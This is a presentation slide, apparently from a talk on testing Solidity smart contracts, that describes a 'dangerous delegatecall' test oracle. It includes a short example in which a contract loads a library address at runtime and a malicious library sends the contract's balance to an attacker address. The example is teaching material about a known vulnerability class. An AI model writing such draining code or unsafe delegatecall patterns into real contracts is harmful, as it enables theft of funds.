

Test Oracle – Dangerous DelegateCall
The code at the target address is executed in the context of the calling contract
Dynamically load code from a different address at runtime
The storage refers to the calling contract

The argument of delegatecall is set as msg.data
The attacker can make the victim contract to call whatever function it provides (within victim’s context)
library Set { function version() returns (uint); }

contract Bob {

  function getSetVersion() returns (uint) {
    address setAddr = provider.getSet();
    return Set(setAddr).version();
  }

}
library MaliciousSet {
  address constant attackerAddr = 0x42;
  function version() returns(uint) {
    addackerAddr.send(this.balance);
    return 1;
  }
}